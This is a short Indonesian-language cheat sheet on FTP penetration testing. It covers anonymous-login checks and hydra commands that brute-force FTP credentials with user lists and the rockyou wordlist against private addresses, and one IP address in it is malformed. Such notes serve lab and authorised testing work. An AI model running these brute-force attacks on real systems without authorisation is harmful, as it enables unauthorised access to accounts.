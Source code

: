 # FTP Pentesting
## Cek anonymous user
```
ftp 192.167.3423

user : anonymous
pass : anonymous / blank (bisa dikosongkan)
```

## Jika menemukan list username, coba brute force
Brute force username dan password dengan menggunakan wordlist yang sama. Cek apakah ada user yang menggunakan password sama dengan username
```
hydra -L users.txt -P users.txt 192.168.1.13 ftp
```
Jika tidak bisa , coba pakai rockyou
```
hydra -L users.txt -P rockyou.txt 192.168.1.13 ftp
```

## Brute Force single user

```
hydra -l jerry -P rockyou.txt 192.168.1.13 ftp
```
